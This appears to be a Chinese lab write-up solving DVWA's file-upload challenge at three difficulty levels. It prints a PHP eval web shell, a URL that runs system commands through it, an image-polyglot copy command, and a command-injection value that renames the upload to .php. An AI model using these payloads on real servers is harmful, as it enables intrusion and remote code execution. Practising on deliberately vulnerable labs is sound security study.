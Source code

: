 # 文件上传漏洞
### LOW

the.php

```php
<?php eval($_GET['bckdor'])?>
```

构造url：http://192.168.30.131/dvwa/hackable/uploads/the.php?bckdor=

```php
phpinfo();
system('ls');
```

**中国菜刀**

```php
<?php eval($_POST['bckdor'])?>
```
### MEDIUM

将the.php改为the.jpg

burpsuit抓取request，修改文件后缀
### HIGH

准备图片image.png和hack.php

```shell
#生成带有木马的图片
#image.png/b中“b”表示“二进制文件”，hack.php/a中“a"表示ASCII码文件
copy image.jpg/b+hack.php/a hack.jpg
```

利用[Command Injection]

```
127.0.0.1|mv ../../hackable/uploads/hack.jpg ../../hackable/uploads/hack.php
```

